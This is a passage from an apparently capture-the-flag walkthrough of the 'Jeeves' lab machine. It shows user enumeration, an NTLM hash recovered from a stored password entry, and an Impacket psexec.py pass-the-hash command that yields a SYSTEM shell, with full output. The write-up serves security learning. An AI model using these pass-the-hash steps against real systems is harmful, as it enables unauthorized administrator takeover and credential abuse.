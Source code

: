 
### Exploiting Admin

Checking for other users in the victim machine,

```c
C:\Users\kohsuke\Documents>net user
net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  
The command completed successfully.

```

After trial and error of the above combination,

```c
Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes:
```

This one seems suspicious

```c
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
``` 

Looks like a ```NTLM``` hash

Lets use ```psexec.exe``` to get shell of ```Administrator``` using ```SMB``` via ```NTLM``` hash / ```Passs The Hash```,

For more on [psexec.exe](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ psexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00" Administrator@10.10.10.63 
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file nPBVBbGz.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service eHiw on 10.10.10.63.....
[*] Starting service eHiw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

...
 
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

```